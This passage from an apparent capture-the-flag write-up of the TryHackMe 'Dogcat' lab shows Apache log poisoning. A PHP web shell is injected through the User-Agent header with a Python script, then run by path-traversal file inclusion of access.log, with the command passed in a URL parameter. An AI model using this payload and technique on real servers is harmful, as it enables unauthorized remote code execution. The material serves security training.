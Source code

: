 This is a snippet of the log:

```plain
{YOUR_IP} - - [10/Jul/2020:10:27:35 +0000] "GET /cats/4.jpg HTTP/1.1" 200 17994 "http://$IP/?view=cat" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

It’s syntax is like this:

`{ACCESSING_IP} - - [TIME] “{REQUEST}” {RESPONSE_CODE} {I_DUNNO} “{URL}” “{USER_AGENT}”`

The part we can modify to display php code, is the User Agent.

You can either do this with a python script or with Burp-Suite.<br/>Here is the python script:

```python
import requests

url = 'http://$IP/?view=cat'

headers = {
    'User-Agent': '<?php system($_GET['cmd']); ?>',
}

response = requests.get(url, headers=headers)

print(response.text)
```

But I did it with Burp as well.

If you want a more detailed description just google how to edit a User Agent with Burp-Suite.

![](/static/images/Dogcat-TryHackMe/burp.png)

We now have remote code execution, by passing a linux command to the “cmd” paramter in the URL. We can see the results of that command if we open up the log file again. So if we try to run “whoami” like this:

```bash
http://$IP/?view=php://filter/resource=./dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=whoami
```

We can see this result in the logs (To find it more quickly the next time, copy the time stamp where the result of the whoami command showed up and search for it the next time. Then you will jump to the correct line automatically):

![](/static/images/Dogcat-TryHackMe/logpoisining.png)

As expected we are “www-data”.

## Post Exploitation

### Flag 1

To get an overview of what we are working with let’s also run “ls -l”.
